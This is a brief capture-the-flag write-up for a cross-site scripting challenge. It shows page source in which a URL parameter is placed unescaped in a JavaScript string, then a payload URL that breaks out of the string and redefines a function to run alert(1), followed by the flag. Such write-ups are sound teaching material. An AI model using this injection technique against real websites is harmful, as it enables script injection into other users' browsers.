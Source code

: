 URL: http://xss1.sect.ctf.rocks/?xss=stuff

The xss parameter was set to a variable 'a':

```
<script>
dontrunthisscript();
var a = "stuff";
</script>
```
The payload below worked and I got the flag.

```
http://xss1.sect.ctf.rocks/?xss=stuff%22;function%20dontrunthisscript%28%29{alert%281%29;}//

```
sect{h0ist_uR_funct10n5_h0ist_y0_w1fe}
